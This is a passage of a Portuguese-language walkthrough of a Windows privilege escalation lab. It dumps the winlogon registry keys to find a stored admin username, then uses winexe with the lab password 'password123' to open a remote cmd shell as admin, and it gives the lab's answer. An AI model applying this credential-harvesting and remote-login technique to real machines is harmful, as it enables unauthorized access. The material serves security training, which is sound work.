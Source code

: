 ```powershell
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x61ced822a
    ShutdownFlags    REG_DWORD    0x7
    AutoAdminLogon    REG_SZ    0
    AutoLogonSID    REG_SZ    S-1-5-21-3025105784-3259396213-1915610826-1001
    LastUsedUsername    REG_SZ    admin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AlternateShells
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\GPExtensions
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\UserDefaults
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\VolatileUserMgrKey
```

Podemos ver que a chave `DefaultUserName` está configurada para o valor `admin`, porém não foi mostrada a senha, por isso vamos utilizar a senha que o propio laboratorio nos da `password123`.

Então vamos utilizar o `winexe` com o usuario `admin` e a senha `password123` para obter acesso como `admin`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         21:10:58
╰──➤ winexe -U 'admin%password123' //10.10.5.221 cmd.exe
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

e para concluir esse tópico bastar informar qual foi a senha que você utilizou para obter acesso como `admin`.

![Passwords](Passwords.png)

---